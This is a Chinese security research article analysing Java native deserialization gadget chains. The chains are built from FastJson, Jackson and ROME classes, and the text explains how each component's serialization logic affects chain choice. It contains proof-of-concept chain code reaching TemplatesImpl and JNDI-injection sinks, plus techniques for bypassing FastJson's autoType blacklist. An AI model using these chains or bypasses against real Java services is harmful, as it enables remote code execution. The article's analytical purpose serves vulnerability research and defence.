# 利用特殊反序列化组件攻击原生反序列化入口 - 先知社区

利用特殊反序列化组件攻击原生反序列化入口

* * *

## 前言

所谓特殊反序列化，就是指自实现了序列化/反序列化逻辑的组件，本文主要讨论以下三种

*   FastJson
*   Jackson（SpringBoot原生环境自带）
*   ROME（其实并不是特殊反序列化组件，但因为它也经常出现在toString利用链中，故放到一起讨论）

本文所述攻击的本质是**将上述组件中的类拼接到反序列化利用利用链中，打的是Serilizable入口，而不是特殊反序列化入口**

篇幅有限，无法对上述组件进行详细介绍，请还没了解的读者自行查阅有关文章

## 攻击原理

**这些组件**在实现自己的序列化逻辑（获取对象field值）时，会使用**自身类**重写的**toString**方法

在**这些类**的toString方法中，会调用**目标类**（也就是放在这些类中的Gadget后半部分，例如TemplatesImpl）的**getter方法**以获取**目标类**对象中的field值

**目标类**`obj`放在**这些类**中

如 `jsonObject1.put("g",obj);` `ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);`

**这些类**包括：`FastJson的JSONObject类、Jackson的POJONode类，ROME的ToStringBean类`

**目标类**getter：`TemplatesImpl#getOutputProperties、LdapAttribute#getAttributeDefinition、JdbcRowsetImpl#getDatabaseMetaData`

值得一提的是，由于是原生反序列化中的攻击，所以要求利用链上的类都要实现Serilizable接口，因此无法使用BCEL那条链（仅特殊反序列化如FastJson可用）

## 利用链分析

### readObject()->任意类toString()

#### HotSwappableTargetSource & XString

**依赖于SpringAOP**

测试代码如下（以JsonObject为例）

```plain
public static void main(String[] args) throws Exception {        
        Object templatesimpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("g","m");
        JSONObject jsonObject1 = new JSONObject();
        jsonObject1.put("g",templatesimpl);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(v1,v1);
        hashMap.put(v2,v2);
        setValue(v1,"target",jsonObject1);

//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap<Object,Object> hhhhashMap = new HashMap<>();
        hhhhashMap.put(tpl,hashMap);*/

        serialize(hashMap);
        unserialize("ser.bin");
}

public static void setValue(Object obj,String field,Object value) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

来看一下调用栈  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017205943-0a548bd0-6ced-1.png)

在Xtring#equals方法中，调用了obj2的toString()方法，这个obj2就是`HotSwappableTargetSource`中和XString对象作比较的`templatesimpl`对象

```plain
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  }
```

#### BadAttributeValueExpException

**JDK原生可用**

这个就很简单了，`BadAttributeValueExpException.readObject()`直接走到它里面对象的toString

代码如下

```plain
Object tpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("gg",tpl);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,jsonObject);
//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap hashMap = new HashMap();
        hashMap.put(tpl,poc);*/
        serialize(poc);
        unserialize("ser.bin");
```

`BadAttributeValueExpException.readObject()`

```plain
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString(); //在这里调用了里面对象的toString()方法
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

#### EqualsBean

**依赖于ROME，在其1.12.0版本前均可用**

代码如下

```plain
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```

调用栈如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210100-38300912-6ced-1.png)

另外这条链很多地方都可以替换

*   由于是在HashMap中调用key.hashCode()作为入口，所以入口类HashMap可以换成Hashtable
*   `ObjectBean.hashCode()`中会调用`EqualsBean.beanHashCode() = EqualsBean.hashCode()` 因此可以用ObjectBean替换EqualsBean

### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

### toString()->sink

#### TemplatesImpl#getOutputProperties

**JDK原生可用**

这条链早在CC和CB中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文

#### JdbcRowSetImpl#getDatabaseMetaData

**JDK原生可用**

```plain
JdbcRowSetImpl jdbcrowsetimpl = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);
```

这条链其实就是FastJson Jdbc链的另一种getter触发方式，效果同样是走到connect()中的lookup实现JNDI注入

由于组件序列化逻辑问题，**该链仅Rome可用**，原因详见后文

#### LdapAttribute#getAttributeDefinition

**JDK原生可用**

```plain
Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:13562");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

此链效果：JNDI注入

由于组件序列化逻辑问题，**Rome不可使用该链**，原因详见后文

## 序列化逻辑分析

此部分重点在于分析不同组件**不同的序列化逻辑对利用链选用的影响以及绕过安全检查**，不会每个都跟进一遍序列化流程，感兴趣的师傅可以自己调试

### FastJson

#### 黑名单检查与绕过

了解过FastJson漏洞的师傅一定都知道它的checkAutoType方法，这是其核心防御机制，原本只在FastJson反序列化流程中被触发

然而到了1.2.49以后，JsonObject类中重写了readObject方法，在resolveClass中会对**目标类**进行checkAutoType检查，本文所述攻击方式会受影响

参考1ue师傅提出的绕过方法，给**入口类对象和目标类对象套一层**List、Set或Map，以BadAttributeValueExpException入口类为例，代码如下

```plain
HashMap hashMap = new HashMap();
hashMap.put(tpl,poc);   
serialize(hashMap);
// tpl即目标类对象（此处为TemplatesImpl类对象） poc即入口类对象（如BadAttributeValueExpException类对象）
```

从而使得

*   序列化时，先给**外层Map中的目标类对象**建立引用映射，再在序列化**JsonObject中的目标类对象**时以引用类型写入目标类对象
*   反序列化时，在恢复**JsonObject中的目标类对象**时，因为它是引用类型，所以不会走到resolveClass方法，实现绕过

至于为什么在恢复引用类型对象时不会调用resolveClass方法，跟进反序列化流程，在此之前有一处判断

```plain
switch (tc) {
                case TC_NULL:
                    return readNull();
                case TC_REFERENCE:
                    return readHandle(unshared);
                case TC_CLASS:
                    return readClass(unshared);
                case TC_CLASSDESC:
                case TC_PROXYCLASSDESC:
                    return readClassDesc(unshared);
                case TC_STRING:
                case TC_LONGSTRING:
                    return checkResolve(readString(unshared));
                case TC_ARRAY:
                    return checkResolve(readArray(unshared));
                case TC_ENUM:
                    return checkResolve(readEnum(unshared));
                case TC_OBJECT:
                    return checkResolve(readOrdinaryObject(unshared));
                case TC_EXCEPTION:
                    IOException ex = readFatalException();
                    throw new WriteAbortedException("writing aborted", ex);
                case TC_BLOCKDATA:
                case TC_BLOCKDATALONG:
                    if (oldMode) {
                        bin.setBlockDataMode(true);
                        bin.peek();             // force header read
                        throw new OptionalDataException(
                            bin.currentBlockRemaining());
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected block data");
                    }
                case TC_ENDBLOCKDATA:
                    if (oldMode) {
                        throw new OptionalDataException(true);
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected end of block data");
                    }
                default:
                    throw new StreamCorruptedException(
                        String.format("invalid type code: %02X", tc));
            }
```

`readClassDesc、checkResolve`等方法最终都会走到`resolveClass` 而目标类若为引用类型便会走到`TC_REFERENCE` 中的`readHandle` 绕过了resolveClass

也可以简单理解为，在外层Map中的时候就恢复过一次了，有缓存，所以第二次恢复就直接引用了

推广一下这种绕过思路，**当Gadget中的某个类在readObject里的resolveClass方法中添加了安全检查**，我们只要能顺利通过**入口的readObject方法**，就可以**将黑名单类对象转换为引用类型**来绕过检测

而当入口的readObject方法也做了黑名单检测之类的防御时，就需要结合二次反序列化进行绕过了（SignedObject、UnicastRef、JNDI.......）

#### 默认构造方法的必要性及其破除

当JsonObject中的目标类不存在默认构造方法（存在有参构造方法且不定义无参构造方法）时，会出现如下报错：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210140-5060b414-6ced-1.png)

问题出现在 AliyunCTF2023 #ezbean中，虽然目前的主流sink都不存在这个问题，但我们还是尝试解决一下

##### 引用类型绕过

观察调用栈，发现报错是出在resolveClass->checkAutoType逻辑中，那就可以通过绕过resolveClass来解决问题，具体操作和上个部分一样

##### 缓存

跟进build方法，发现其会遍历一遍目标类的构造方法，如果找不到默认构造方法就会报错，显然build方法内部没有什么可干涉的点

那能否**在checkAutoType被调用的前提下，不让build方法被调用**呢？看看build方法调用前的代码

```plain
if (clazz != null) {
            if (jsonType) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            }

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    TypeUtils.addMapping(typeName, clazz);
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
            if (beanInfo.creatorConstructor != null && autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
```

可以看到，在build之前，会先将类加入到缓存中（开了AutoType且此时已经通过了黑名单检查）

回想一下FastJson 1.2.47版本的绕过方式，如果能从缓存中找到目标类，会在很早的时候就加载类并返回，也就绕过了黑名单检查

借鉴这种思路，我们可以**添加缓存，提前返回类**，从而避免build中的报错

然而这里有一个区别，1.2.47绕过方式中使用了两个json；第一个json为目标类添加缓存，第二个json实现攻击；并且第一次反序列化不会报错中断流程，所以第二个json才能顺利被反序列化从而完成攻击

而我们现在的情况是：完成攻击需要build A类，而build会报错，解决这个问题需要给A类加缓存，但是在给A类加缓存之后又一定会因为build A类而报错

预想的操作是打两次，第一次加缓存，第二次借助缓存提前返回类，而这需要**本次攻击加入的缓存持续生效至下一次攻击**

这在**报错即终止程序生命周期**的情况下一定做不到，比如本地运行`serialize & unserialize`

好在类缓存是存放在一个名为`mappings`的**静态变量**中的，在**大多数服务器环境**下，**多试几次**就能完成攻击

### Jackson

引入以下jar包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210204-5edc0cbe-6ced-1.png)

嫌麻烦的话直接引入 `springframework.boot.spring.starter.web`依赖就行

#### getter调用顺序不稳定及解决方式

这一块已经有师傅写过相关文章，我也就不做重复劳动了

问题原因： [https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q](https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q)

解决方式： [https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

值得一提的是，Jackson结合LDAPAttribute使用的时候不需要这部分操作，**如果添加了反而会出错（当然**

#### 删除writeplace()方法

这一块也早就有很多师傅提过，但因为是一个很小的点，并没有专门分析的文章，不太好直接扔个链接，我也就干脆顺便提一下

在Java对象的序列化流程中，如果其类（或父类）拥有writeReplace方法（字面意思，writeObject 替代）就会走到类自己的序列化逻辑

Jackson中的POJONode类就满足这个条件，在序列化的时候便会发生报错（Jackson序列化和Java原生序列化的数据自然是不同的）

解决这个问题有多种思路，我们直接使用Javaassist字节码修改工具，删除BaseJsonNode类中的writeReplace方法即可

```plain
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
```

### Rome

Rome 1.12.0之前都可以用，注意1.0和后续版本中beanClass、obj的属性名有差别（低版本属性名前会有一个下划线 `_` ）

#### TemplatesImpl

Rome结合TemplatesImpl利用时存在和Jackson相似的问题，可能会在调用别的getter时报错而提前终止流程

这里也是采用相似的解决思路，使用Rome时可以直接在ToStringBean里指定从哪个类里获取getter，操作起来很简单

```plain
Object templatesImpl = null;
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl); //在这里指定了从templates.class接口里去获取getter，
                                                                              //其中只有一个getter：getOutputProperties()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        serialize(badAttributeValueExpException);       
        unserialize("ser.bin");
```

#### JdbcRowSetImpl

Rome链可以结合JdbcRowSetImpl使用，乍一看没什么大不了，但对getter调用流程有了解的师傅应该会意识到问题所在

getter的调用是一个一个来的，如果中途报错，流程就会中断，让我们来看看JdbcRowSetImpl里的getter（property：仅A到D）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210217-6675857c-6ced-1.png)

.......有点太多了，这也是为什么FastJson和Jackson结合JdbcRowSetImpl的利用都是会中途报错的

回到Rome，真的有可能走到我们想要的getter而不报错吗？调试一下Rome结合JdbcRowSetImpl的利用代码

```plain
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210233-6f9d6318-6ced-1.png)

在ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

*   getQueryTimeout
*   getEscapeProcessing
*   getMaxFieldSize
*   **getDatabaseMetaData()**
*   .............

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成List就行）来的，而我们都知道HashMap是根据**键的哈希值**来确定存储顺序的（相当于随机了）

总之就是在这个机缘巧合之下，getter存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome链可以结合JdbcRowSetImpl使用！**

#### LdapAttribute

Rome链不可以结合LdapAttribute使用，同样是很反直觉的一个现象，让我们看看LdapAttribute中的getter  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210246-77dc525a-6ced-1.png)

方法很少，并且都不会强制报错，我们的目标是调用到`getAttributeDefinition`

按理说没啥问题，在`getAttributeDefinition` 处下断点，调试一下

```plain
public static void main(String[] args) throws Exception{
        Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:11123");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

        ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

没走到想要的断点。把之前研究JdbcRowSetImpl下的断点开一下，慢慢跟

~中间的过程很繁琐，低版本Rome就算实际是报错了也不会打印报错信息，根本不知道是哪里抛出的错误。我一步一个断点，痛苦调试快十分钟才找到出错的地方~

建议使用高版本Rome，一步到位[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210306-839cbc56-6ced-1.png)

在`PropertyDescriptor#PropertyDescriptor(String,Method,Method) L135：IntrospectionException("bad property name");`下断点， **分析结果如下：**

LDAPAttribute类有一个get方法：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210358-a293a62e-6ced-1.png)

ROME的序列化逻辑中会获取到它，然后获取pName(propertyName)——什么都没有，随后直接报错  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210410-a9e187a2-6ced-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210424-b1e0312e-6ced-1.png)

实在是让人哭笑不得的问题，这处设计的用意显然也不是用来防御的，但我们攻击中的这一环恰好就会因此断开

有没有什么办法解决呢？前面也遇到了相似的问题，尝试迁移一下思路

##### 多打几次拼运气（×）

由于getter就这几个，再加上getter调用顺序随机的机制，理论上来说打个几十次大概率能至少有一次成功

可惜的是，这个问题是出在获取getter时，根本都进入不到调用的流程

##### 找一个没有get方法的父类或接口（×）

很可惜，就算找到`LdapAttribute`的接口`Attribute`，都仍然有`get()`方法

目前为止没能发现别的思路，因此**Rome链确实是不可以结合LdapAttribute使用的**

#### 1.12.0后的修复

Rome链在1.12.0之后的版本不可用了，修复主要集中在对于ToStringBean类的修改

首先是构造方法的修改

```plain
private ToStringBean() {}
```

这一点对于攻击利用来说无伤大雅，**真正致命的修复是对toString方法的修改**

```plain
public static String toString(Class<?> beanClass, Object obj)
```

老版本的toString()是无参的，其中beanClass（决定了从哪个类里获取getter）和obj（决定调用哪个对象的getter）都是直接用**类属性**里的，通过构造方法传入或者反射修改类属性的方式都可以操纵这两个关键参数

修复后，这两个参数由调用toString的地方传入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231017210344-9a5bdb02-6ced-1.png)

